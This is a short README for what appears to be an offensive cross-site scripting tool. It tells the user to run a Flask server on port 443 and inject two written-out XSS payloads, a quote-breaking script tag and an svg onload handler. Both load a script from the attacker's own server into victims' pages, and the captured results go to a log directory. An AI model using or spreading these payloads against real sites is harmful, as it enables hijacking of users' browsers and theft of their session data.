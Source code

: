 
### usage
* requires python 3 and flask

```bash
sudo apt update && sudo apt install -y python3-flask
```

* put ssl files in project (cert.pem, key.pem)

* run on your server:

```bash
sudo python3 server.py 443
```

* load this script with an xss:
```html
'"><script/src=https://yourserver/s.js></script>
```
* alternatively:
```html
'"><svg/onload=body.appendChild(document.createElement`script`).src="https://yourserver/s.js">
```

* see the files in the log directory
